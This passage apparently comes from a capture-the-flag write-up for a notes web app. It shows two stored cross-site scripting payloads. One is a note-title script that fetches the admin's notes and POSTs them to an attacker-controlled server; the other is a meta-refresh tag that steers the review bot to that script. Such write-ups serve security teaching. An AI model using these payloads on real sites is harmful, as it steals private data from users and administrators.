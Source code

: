 ```javascript
});
```

When the bot make a POST request to `/receive` with the body is the admin's notes, the server will write the data to `out.ndjson` then I host it with my hosting server (on cPanel).

Next, in the website I need two notes to achieve my purpose.

First post containing the script that will make the bot send admin's notes:

```
Title: <script>fetch('/api/notes').then(async res => {
    const jsonData = await res.json();

    fetch('https://<YOUR_SERVER_DOMAIN>/receive', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ payload: jsonData })
    });
})</script>

Content: Anything
```

Second post containing a meta tag that will make the bot automatically redirect to `/api/notes/<MY_SCRIPT_NOTE_ID>` since the `/dashboard?reviewNote=<NOTE_ID>` cannot execute script as we tested before.

```
Title: <meta http-equiv="refresh" content="0;url=/api/notes/<SCRIPT_NOTE_ID>">

Content: Anything
```

![Guide image](./screenshots/7.png)
